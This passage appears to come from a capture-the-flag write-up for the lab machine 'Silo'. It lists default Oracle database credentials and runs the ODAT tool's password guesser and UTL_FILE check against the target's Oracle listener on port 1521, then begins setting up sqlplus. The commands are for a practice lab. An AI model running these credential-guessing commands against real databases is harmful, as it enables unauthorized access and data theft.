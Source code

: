 ```bash
# create credential database file from nmap
cat <<END>creds.upper.txt
CTXSYS/CTXSYS
OUTLN/OUTLN
SCOTT/TIGER
SYSTEM/WELCOME1
MDSYS/MDSYS
DIP/DIP
HR/HR
DBSNMP/DBSNMP
XDB/CHANGE_ON_INSTALL
END
# convert all to lowercase
cat creds.upper.txt | tr '[:upper:]' '[:lower:]' > creds.lower.txt
# download tool
wget https://github.com/quentinhardy/odat/releases/download/4.3/odat-linux-libc2.12-x86_64.tar.gz
tar -xvf odat-linux-libc2.12-x86_64.tar.gz
odat-libc2.12-x86_64/odat-libc2.12-x86_64 passwordguesser \
                                          -s 10.10.10.82 \
                                          -p 1521 \
                                          -d XE \
                                          --accounts-file creds.lower.txt
```

This returns a valid account login:

![oracle2](./silo/oracle2.png)

Now check what kinds of accesses this account has:

```bash
odat-libc2.12-x86_64/odat-libc2.12-x86_64 utlfile \
                                          -s 10.10.10.82 \
                                          -p 1521 \
                                          -d XE \
                                          -U scott \
                                          -P tiger
```

This did not return any hits (all `[-] KO`)... Now install `sqlplus` manually? Since the target DB version is 11.2.0.2.0, use client version 11.2.0.4.0. There are 3 libraries needed for this to work:

- **NOTE:** You will need an Oracle account to download these...
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-basic-linux.x64-11.2.0.4.0.zip
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-sqlplus-linux.x64-11.2.0.4.0.zip
- https://download.oracle.com/otn/linux/instantclient/11204/instantclient-sdk-linux.x64-11.2.0.4.0.zip
